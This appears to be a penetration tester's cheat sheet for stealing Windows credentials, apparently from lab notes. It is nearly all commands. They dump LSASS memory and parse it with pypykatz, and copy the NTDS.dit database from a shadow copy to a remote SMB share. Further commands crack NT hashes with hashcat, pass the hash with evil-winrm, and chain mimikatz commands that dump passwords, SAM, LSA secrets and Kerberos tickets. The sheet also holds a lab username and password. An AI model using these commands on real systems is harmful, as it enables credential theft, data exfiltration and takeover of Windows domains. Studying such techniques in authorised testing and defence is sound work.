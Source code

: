 #### LSASS

```powershell
# Finding LSASS PID
C:\Windows\system32> tasklist /svc
PS C:\Windows\system32> Get-Process lsass

# Creating lsass.dmp using PowerShell
# With an elevated PowerShell session, we can issue the following command to create the dump file:
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full

# Using Pypykatz to Extract Credentials
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Cracking the NT Hash with Hashcat
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

#### NTDS.dit

```shell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds

# Crack the hashes
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

#Perform pass the hash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

#### Mimikatz/Pypykatz

https://adsecurity.org/?page\_id=1821

```bash
privilege::debug

sekurlsa::logonPasswords
lsadump::sam
lsadump::sam /patch
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam /patch" "lsadump::lsa /patch" "lsadump::secrets" "exit"

pypykatz lsa minidump filename.DMP
```
